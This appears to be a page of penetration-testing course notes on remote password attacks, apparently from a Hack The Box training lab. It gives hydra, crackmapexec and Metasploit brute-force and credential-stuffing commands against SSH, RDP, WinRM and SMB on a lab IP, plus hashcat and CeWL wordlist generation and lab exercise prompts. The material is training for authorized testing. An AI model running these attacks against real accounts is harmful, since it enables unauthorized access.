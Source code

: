 # ☄️ Remote Password Attacks

## Network Services

{% content-ref url="../../../interacting-with-protocols-and-tools/tools/crackmapexec.md" %}
[crackmapexec.md](../../../interacting-with-protocols-and-tools/tools/crackmapexec.md)
{% endcontent-ref %}

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

{% content-ref url="../../../interacting-with-protocols-and-tools/tools/winrm.md" %}
[winrm.md](../../../interacting-with-protocols-and-tools/tools/winrm.md)
{% endcontent-ref %}

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/ssh.md" %}
[ssh.md](../../../interacting-with-protocols-and-tools/protocols/ssh.md)
{% endcontent-ref %}

```shell-session
 hydra -L user.list -P password.list ssh://10.129.42.197
```

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/rdp.md" %}
[rdp.md](../../../interacting-with-protocols-and-tools/protocols/rdp.md)
{% endcontent-ref %}

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

Connect through xfreerdp:

```shell-session
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

{% content-ref url="../../../interacting-with-protocols-and-tools/protocols/smb.md" %}
[smb.md](../../../interacting-with-protocols-and-tools/protocols/smb.md)
{% endcontent-ref %}

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

we may also get the following error describing that the server has sent an invalid reply.

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run
```

## Password Mutations

Considering that many people want to keep their passwords as simple as possible despite password policies, we can create rules for generating weak passwords.

We can use a very powerful tool called [Hashcat](https://hashcat.net/hashcat/) to combine lists of potential names and labels with specific mutation rules to create custom wordlists.

```shell-session
ElFelixi0@htb[/htb]$ hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
ElFelixi0@htb[/htb]$ cat mut_password.list

password
Password
passw0rd
Passw0rd
p@ssword
P@ssword
P@ssw0rd
password!
<SNIP>
```

We can also create a wordlist based on potential words from the company's website and save them in a separate list with [CeWL](https://github.com/digininja/CeWL)

```shell-session
ElFelixi0@htb[/htb]$ cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.

Here is a list of known default credentials [DefaultCreds-Cheat-Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).

Hydra syntax to try credential stuffing ->

```shell-session
hydra -C <user_pass.list> <protocol>://<IP>
hydra -C user_pass.list ssh://10.129.42.197
```

_**Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer.**_ (Format: :)

